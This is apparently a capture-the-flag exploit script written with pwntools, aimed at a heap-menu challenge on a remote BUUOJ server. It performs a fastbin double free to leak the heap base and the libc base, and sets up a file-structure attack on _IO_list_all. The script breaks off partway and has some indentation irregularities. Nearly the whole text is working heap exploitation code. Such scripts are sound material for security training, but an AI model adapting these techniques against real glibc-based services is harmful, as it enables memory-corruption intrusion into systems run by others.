 ```py
    libc = ELF('./x64_libc.so.6')
    p = remote('node3.buuoj.cn',28038)

def Add(size,content='0'):
    p.recvuntil('>> ')
    p.sendline('1')
    p.recvuntil("size?\n")
    p.sendline(str(size))
    p.recvuntil("content?\n")
    p.send(content)

def Show(index):
    p.recvuntil('>> ')
    p.sendline('3')
    p.recvuntil("index ?\n")
    p.sendline(str(index))

def Delete(index):
    p.recvuntil('>> ')
    p.sendline('2')
    p.recvuntil("index ?\n")
    p.sendline(str(index))


def exp():
    #leak libc
    p.sendlineafter("what is your name?",'123')
    Add(0x20,p64(0x21)*4)#0
    Add(0x20,p64(0x21)*4)#1
    Add(0x80,p64(0x31)*16)#2
    Add(0x20,p64(0x31)*4)#3
    Add(0x50,p64(0x31)*10)#4
    Add(0x1f0,p64(0x31)*18)#5
    Add(0x60,p64(0x21)*12)#6
    Delete(0)
    Delete(1)
    Delete(0)
    Show(0)
    #p.recvline()
    heap_base = u64(p.recvline().strip('\n').ljust(8,'\x00')) - 0x10
    log.success("heap base => " + hex(heap_base))
    Add(0x20,'\x20')#6
    Add(0x20,p64(0x31)*4)#7
    Add(0x20,p64(0x31)*4)#8


    Add(0x20,p64(0)+p64(0x161))#9

    Delete(1)
    Show(1)
    libc_base = u64(p.recvline().strip("\n").ljust(8,'\x00')) - 88 - 0x10 - libc.sym['__malloc_hook']
    log.success("libc base => " + hex(libc_base))
    Add(0x150)#10
    #Delete(10)
    #Delete(2)
    libc.address = libc_base
    IO_list_all = libc.sym['_IO_list_all']
    #Add(0x150,'a'*0x20+p64(0)+p64(0x91)+p64(0)+p64(IO_list_all-0x10))
    #Add(0x80)
    #get small bins
    Delete(3)
    Delete(0)
```